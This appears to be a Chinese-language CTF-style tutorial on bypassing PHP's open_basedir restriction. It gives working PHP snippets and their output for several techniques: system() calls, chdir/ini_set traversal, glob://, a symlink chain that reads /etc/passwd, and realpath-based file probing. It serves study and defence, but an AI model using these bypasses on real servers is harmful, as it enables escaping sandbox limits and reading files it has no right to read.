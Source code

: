 ## open_basedir绕过

>`open_basedir`将php所能打开的文件限制在指定的目录中,当程序使用如`file_get_contents()`函数来读取文件时,会检查文件位置,如果不在指定的目录下,会拒绝打开

`php.ini`中设置`open_basedir=/var/www/html`

```php
<?php
var_dump(scandir('.'));
echo '<br><br>';
var_dump(scandir('/'));
?>
```

```
array(9) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(13) "bjd_ezphp.php" [3]=> string(7) "dropbox" [4]=> string(8) "flag.php" [5]=> string(12) "fuzz_rce.php" [6]=> string(12) "geek_rce.php" [7]=> string(8) "phar.php" [8]=> string(8) "test.php" }


Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 4

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 4

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 4
bool(false) 
```

### 利用system函数绕过

> 相当于直接执行系统命令,不受open_basedir影响

```php
<?php
var_dump(scandir('/'));
echo '<br><br>';
system("cd / && ls");
?>
```

```
Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 2

Warning: scandir(/): failed to open dir: Operation not permitted in /var/www/html/test.php on line 2

Warning: scandir(): (errno 1): Operation not permitted in /var/www/html/test.php on line 2
bool(false)

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

## 利用chdir和ini_set绕过

[原理](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#poc%E6%B5%8B%E8%AF%95)

```php
<?php
mkdir('test');
chdir('test');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(scandir('/'));
?>
```

```
array(22) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(4) "home" [8]=> string(3) "lib" [9]=> string(5) "lib64" [10]=> string(5) "media" [11]=> string(3) "mnt" [12]=> string(3) "opt" [13]=> string(4) "proc" [14]=> string(4) "root" [15]=> string(3) "run" [16]=> string(4) "sbin" [17]=> string(3) "srv" [18]=> string(3) "sys" [19]=> string(3) "tmp" [20]=> string(3) "usr" [21]=> string(3) "var" } 
```

### 利用glob://

```php
<?php
var_dump(scandir('glob:///*'));
?>
```

```
array(19) { [0]=> string(3) "bin" [1]=> string(4) "boot" [2]=> string(3) "dev" [3]=> string(3) "etc" [4]=> string(4) "home" [5]=> string(3) "lib" [6]=> string(5) "lib64" [7]=> string(5) "media" [8]=> string(3) "mnt" [9]=> string(3) "opt" [10]=> string(4) "proc" [11]=> string(4) "root" [12]=> string(3) "run" [13]=> string(4) "sbin" [14]=> string(3) "srv" [15]=> string(3) "sys" [16]=> string(3) "tmp" [17]=> string(3) "usr" [18]=> string(3) "var" } 
```

只能对根目录进行读取,当传入的参数为`glob://*`时会列出open_basedir允许目录下的文件

### 利用symlink

```php
<?php
@mkdir('a/b/c/d/e/f/g/');
symlink('a/b/c/d/e/f/g','temp');
ini_set('open_basedir','/var/www/html:readfile/');
symlink('temp/../../../../../../','readfile');
unlink('temp');
symlink('/var/www/html','temp');
var_dump(file_get_contents('readfile/flag'));
echo '<br><br>';
var_dump(file_get_contents('readfile/etc/passwd'));
unlink('temp');
unlink('readfile');
?>
```

```
string(11) "flag{flag} "

string(926) "root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin "
```

1. 在`/var/www/html`目录下新建`a/b/c/d/e/f/g/`目录
2. 在`/var/www/html`目录下创建链接`temp`到`a/b/c/d/e/f/g`
3. `symlink('temp/../../../../../../','readfile');`等价于`symlink('a/b/c/d/e/f/g/../../../../../../','readfile');`
4. `ini_set('open_basedir','/var/www/html:readfile/');`添加权限
5. `unlink('temp');`然后`symlink('/var/www/html','temp');`等价于`symlink('/var/www/html/../../../../../../','readfile');`相当于`readfile`为根目录

## SplFileInfo::getRealPath或者realpath

用于验证该路径是否存在,没有考虑`open_basedir`

```php
<?php
$info = new SplFileInfo('/flag');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
$info = new SplFileInfo('/etc/wdnmd');
var_dump($info->getRealPath());
?>
```

```
string(5) "/flag"
string(11) "/etc/passwd"
bool(false)
```

用样也可以用`realpath`

```php
<?php
var_dump(realpath('/asdf'));
var_dump(realpath('/flag'));
?>
```

> 注意报错,用报错来判断文件是否存在

```
bool(false)

Warning: realpath(): open_basedir restriction in effect. File(/flag) is not within the allowed path(s): (/var/www/html) in /var/www/html/test.php on line 3
bool(false)
```